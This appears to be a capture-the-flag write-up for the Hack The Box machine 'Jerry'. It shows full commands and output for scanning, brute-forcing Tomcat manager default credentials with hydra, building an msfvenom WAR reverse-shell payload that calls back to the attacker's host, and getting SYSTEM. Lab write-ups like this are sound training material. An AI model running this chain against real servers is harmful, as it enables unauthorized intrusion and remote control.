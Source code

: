 ## ---------------->> Jerry <<--------------

// We will start with nmap scan 

    $ nmap -sV -A -Pn -T4 10.10.10.95 -p-
-------

    Nmap scan report for 10.10.10.95
    Host is up (0.19s latency).
    Not shown: 65534 filtered ports
    PORT     STATE SERVICE VERSION
    8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
    |_http-favicon: Apache Tomcat
    |_http-open-proxy: Proxy might be redirecting requests
    |_http-server-header: Apache-Coyote/1.1
    |_http-title: Apache Tomcat/7.0.88
    
// Navigating to http://10.10.10.95:8080/ 

![Image 1](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Jerry/1.png)

// Searching for interesting directories with [dirsearch](https://github.com/maurosoria/dirsearch)(By maurosoria)

    $ python3 dirsearch.py -u http://10.10.10.95:8080/ -t 100
------

      _|. _ _  _  _  _ _|_    v0.4.1
     (_||| _) (/_(_|| (_| )

    Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 100 | Wordlist size: 10903

    Output File: /home/kali/Desktop/Tools/dirsearch/reports/10.10.10.95/_21-08-13_13-30-26.txt

    Error Log: /home/kali/Desktop/Tools/dirsearch/logs/errors-21-08-13_13-30-26.log

    Target: http://10.10.10.95:8080/

    [13:30:27] Starting: 
    [13:30:53] 400 -    0B  - /\..\..\..\..\..\..\..\..\..\etc\passwd[13:30:54] 400 -    0B  - /a%5c.aspx
    [13:31:20] 302 -    0B  - /docs  ->  /docs/
    [13:31:22] 200 -   19KB - /docs/
    [13:31:23] 302 -    0B  - /examples  ->  /examples/
    [13:31:23] 200 -    1KB - /examples/
    [13:31:23] 200 -    7KB - /examples/servlets/index.html
    [13:31:24] 200 -  637B  - /examples/servlets/servlet/CookieExample
    [13:31:24] 200 -  947B  - /examples/servlets/servlet/RequestHeaderExample
    [13:31:24] 200 -   21KB - /favicon.ico
    [13:31:25] 200 -  722B  - /examples/jsp/snp/snoop.jsp
    [13:31:27] 401 -    2KB - /host-manager/html
    [13:31:27] 302 -    0B  - /host-manager/  ->  /host-manager/html
    [13:31:29] 200 -   11KB - /index.jsp
    [13:31:33] 302 -    0B  - /manager  ->  /manager/
    [13:31:33] 401 -    2KB - /manager/status/all
    [13:31:34] 401 -    2KB - /manager/html
    [13:31:34] 302 -    0B  - /manager/  ->  /manager/html
    [13:31:34] 401 -    2KB - /manager/html/

    Task Completed

// Lets focus on /manager/

// Navigating to http://10.10.10.95:8080/manager/ gets us a login pop up lets try admin : admin

![Image 2](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Jerry/2.png)

// Its redirect us to http://10.10.10.95:8080/manager/html 'ACCESS DENIED' html page

![Image 3](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Jerry/3.png)

// Found a tomcat [list](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt) 

// now we can use [hydra](https://secnhack.in/hydra-a-brute-forcing-tool/) for brute force the login(Also can be done with BurpSuite Intruder)

    $ hydra -C tomcat-betterdefaultpasslist.txt http-get://10.10.10.95:8080/manager/html
--------

    Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-08-13 13:52:14
    [DATA] max 16 tasks per 1 server, overall 16 tasks, 79 login tries, ~5 tries per task
    [DATA] attacking http-get://10.10.10.95:8080/manager/html
    [8080][http-get] host: 10.10.10.95   login: admin   password: admin
    [8080][http-get] host: 10.10.10.95   login: admin   password: admin
    [8080][http-get] host: 10.10.10.95   login: tomcat   password: s3cret
    [8080][http-get] host: 10.10.10.95   login: tomcat   password: s3cret
    1 of 1 target successfully completed, 4 valid passwords found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-08-13 13:52:20

// We can see its default credentials login: tomcat : s3cret

// Navigate to http-get://10.10.10.95:8080/ and click on 'Server Status' and default login credentials

![Image 4](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Jerry/4.png)

// Then click on 'List applications'

![Image 5](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Jerry/5.png)

// Rolling down we can see that we can upload .war files

![Image 6](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Jerry/6.png)

// Lets first make .war payload with msfvenom

    $ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.16.173 LPORT=1444 -f war -o jerry_war.war
---------

    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x64 from the payload
    No encoder specified, outputting raw payload
    Payload size: 510 bytes
    Final size of war file: 2444 bytes
    Saved as: jerry_war.war

// and lets see how the jsp file inside called

    $ mkdir tmp

    $ cd tmp/

    $ unzip ../jerry_war.war 

    Archive:  ../jerry_war.war
       creating: META-INF/
      inflating: META-INF/MANIFEST.MF    
       creating: WEB-INF/
      inflating: WEB-INF/web.xml         
      inflating: biemviiajpvn.jsp   

    $ ls
    META-INF  WEB-INF  biemviiajpvn.jsp

// The file called biemviiajpvn.jsp

// So lets open a listiner on Metasploit multi/handler

    msf6> use exploit/multi/handler

    msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
    payload => windows/x64/meterpreter/reverse_tcp
    msf6 exploit(multi/handler) > set lport 1444
    lport => 1444
    msf6 exploit(multi/handler) > set lhost 10.10.16.173
    lhost => 10.10.16.173

    msf6 exploit(multi/handler) > exploit -j
    [*] Exploit running as background job 0.
    [*] Exploit completed, but no session was created.

    [*] Started reverse TCP handler on 10.10.16.173:1444 

// now opload the war file 

![Image 7](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Jerry/7.png)

// And navigate to http://10.10.10.95:8080/jerry_war/biemviiajpvn.jspv

    meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM

// We got NT/SYSTEM !!! and the flags !

    meterpreter > pwd
    C:\Users\Administrator\Desktop\flags

    meterpreter > cat '2 for the price of 1.txt'
    user.txt
    7004dbce..................

    root.txt
    04a8b36e1.................
